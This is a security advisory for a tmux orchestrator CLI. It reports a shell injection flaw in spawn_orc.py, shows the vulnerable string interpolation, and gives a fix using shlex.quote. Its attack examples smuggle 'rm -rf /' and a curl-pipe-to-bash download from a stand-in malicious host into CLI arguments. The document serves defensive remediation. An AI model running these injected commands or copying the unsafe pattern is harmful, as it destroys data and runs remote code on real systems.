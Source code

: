 # CLI Security Blockers - Immediate Action Required

**Date**: 2025-08-14
**Target**: Senior Developer (CLI Completion Work)
**Priority**: CRITICAL - Must be resolved before CLI modernization completion
**Context**: Security vulnerabilities blocking CLI module completion

## 🚨 CRITICAL BLOCKERS - RESOLVE IMMEDIATELY

### 1. Shell Injection in Orchestrator Spawning (CRITICAL)
**File**: `tmux_orchestrator/cli/spawn_orc.py`
**Lines**: 46-77
**CVSS**: 9.8 (Critical) - Complete system compromise possible

#### **Vulnerable Code**:
```python
# Lines 46-77 - Direct string interpolation into bash script
startup_script = f"""#!/bin/bash
# ... setup code ...
{" ".join(claude_cmd)} "$INSTRUCTION_FILE"  # ⚠️ INJECTION POINT
# ... cleanup code ...
"""
```

#### **Attack Examples**:
```bash
tmux-orc spawn orc --profile '; rm -rf / #'
tmux-orc spawn orc --terminal 'xterm; curl malicious.com/steal.sh | bash'
```

#### **Required Fix**:
```python
import shlex

# SAFE VERSION - Use shlex.quote() for all user inputs
def create_safe_startup_script(claude_cmd: list[str], instruction_content: str) -> str:
    # Validate and escape each command component
    validated_cmd = []
    for arg in claude_cmd:
        if not isinstance(arg, str) or len(arg) > 1000:
            raise ValueError(f"Invalid command argument: {arg}")
        validated_cmd.append(shlex.quote(arg))

    safe_cmd = " ".join(validated_cmd)
    safe_instruction = shlex.quote(instruction_content)

    return f"""#!/bin/bash
set -euo pipefail
{safe_cmd} "$INSTRUCTION_FILE"
"""
```
